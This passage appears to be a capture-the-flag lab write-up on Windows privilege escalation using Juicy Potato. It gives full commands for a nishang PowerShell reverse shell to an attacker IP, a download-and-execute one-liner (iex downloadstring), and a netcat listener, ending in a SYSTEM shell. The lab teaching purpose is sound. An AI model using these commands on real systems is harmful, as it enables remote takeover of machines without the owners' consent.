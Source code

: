 First copy the _Invoke-PowerShellTcp.ps1_ script once again into your current directory.

```text
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell-2.ps1
```

Add the following line to the end of the script with the attack configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 6666
```

When called, this sends a reverse shell back to our attack machine on port 6666.

Next, create a _shell.bat_ file that downloads the above _shell-2.ps1_ PowerShell script and runs it.

```text
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell-2.ps1')
```

Then download the _shell.bat_ file on the target machine.

```text
(new-object net.webclient).downloadfile('http://10.10.14.7:5555/shell.bat', 'C:\Users\kohsuke\Desktop\shell.bat')
```

Setup a listener on the attack machine to receive the reverse shell.

```text
nc -nlvp 6666
```

Then run the Juicy Potato executable. This should attempt to get a token that impersonates SYSTEM and then run our _shell.bat_ file with elevated privileges.

```text
./jp.exe -t * -p shell.bat -l 4444
```

We get a shell with SYSTEM privileges!

![](../images/max/841/1*kmFmQh902CGUvnSX_IVfoQ.png)

Grab the _root.txt_ flag.
